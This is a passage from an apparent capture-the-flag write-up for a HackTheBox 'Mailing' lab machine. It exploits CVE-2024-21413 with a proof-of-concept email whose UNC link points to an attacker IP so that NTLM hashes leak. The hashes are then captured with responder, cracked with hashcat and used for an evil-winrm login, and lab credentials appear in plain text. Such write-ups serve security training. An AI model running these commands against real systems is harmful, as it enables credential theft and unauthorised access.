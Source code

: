The hMailServer uses a specific kind of encryption where, in order to decrypt the password field we need to have AdministratorPassword (which we already have) however the problem in order to decrypt that password and use script mentioned in [exploit](https://www.exploit-db.com/exploits/7012) we need to have hMailServer installed on our system.

As we have SMTP protocol, we likely have Mail Client to send emails, and this can be approved from instructions.pdf we obtained before;

![image.png](image%2018.png)

`Windows Mail` is default mail client for Windows machines.

Searching for exploits against this client we encounted CVE discovered in 2024:
[CVE-2024-21413](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability&ved=2ahUKEwiVgYmmxJiNAxVaxgIHHQyFAdkQFnoECB0QAQ&usg=AOvVaw2afJuVrVBBDwPW02PA3Wr8)

We can obtain NTLM hashes of users form `instructions.pdf` we remember the user `maya` where in example they send an email, let’s try this PoC with that username.

```bash
sudo responder -I tun0 -dwv
```

```bash
python3 CVE-2024-21413.py --server "mailing.htb" --port 25 --username administrator@mailing.htb --password homenetworkingadministrator --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.14.27\test\meeting' --subject "PoC"
```

![image.png](image%2019.png)

```bash
python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.14.27\test\meeting' --subject "PoC"
```

![image.png](image%2020.png)

```bash
hashcat -m 5600 maya.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2021.png)

Now we can use this to connect to the machine with evil-winrm:

```bash
evil-winrm -i $IP -u maya -p 'm4y4ngs4ri'
```

## Privilege Escalation

I have write access to SMB share I am gonna put there `.lnk` file and wait for connection.

```bash
sudo nxc smb $IP -u maya -p 'm4y4ngs4ri' --shares
```
